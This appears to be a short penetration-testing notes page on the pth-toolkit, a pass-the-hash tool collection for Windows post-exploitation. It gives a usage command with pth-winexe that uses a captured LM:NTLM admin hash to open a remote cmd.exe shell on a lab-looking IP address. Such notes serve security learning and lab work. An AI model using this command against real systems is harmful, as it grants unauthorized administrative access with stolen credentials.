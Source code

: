 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```


A modified version of the passing-the-hash tool collection [https://code.google.com/p/passing-the-hash/](https://code.google.com/p/passing-the-hash/) designed to be portable and work straight out of the box even on the most 'bare bones' systems

[GitHub - byt3bl33d3r/pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit/tree/master)

## Usage

Use the full admin hash with `pth-winexe` to spawn a shell running as admin without needing to crack their password. 
Remember the full hash includes **both the LM and NTLM hash**, separated by a colon:

```
pth-winexe -U 'admin%hash' //10.10.181.132 cmd.exe
```
